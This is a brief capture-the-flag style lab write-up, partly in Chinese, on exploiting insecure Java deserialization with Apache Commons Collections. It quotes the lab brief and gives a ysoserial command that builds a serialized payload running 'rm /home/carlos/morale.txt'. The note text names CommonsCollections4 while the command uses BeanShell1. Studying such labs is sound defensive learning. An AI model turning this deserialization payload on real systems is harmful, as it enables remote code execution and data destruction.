 # Lab: Exploiting Java deserialization with Apache Commons

 This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 

## Insecure Deserialization
* 可以用工具 ysoserial，因為是黑箱，並不知道他到底用的是什麼樣的 class，指能依照工具給的一個一個試，試到 `CommonsCollections4` 就會過了
```
java -jar ysoserial-master-8eb5cbfbf6-1.jar BeanShell1 'rm /home/carlos/morale.txt' | base64
```
* 記得最後的 payload 要用 urlencode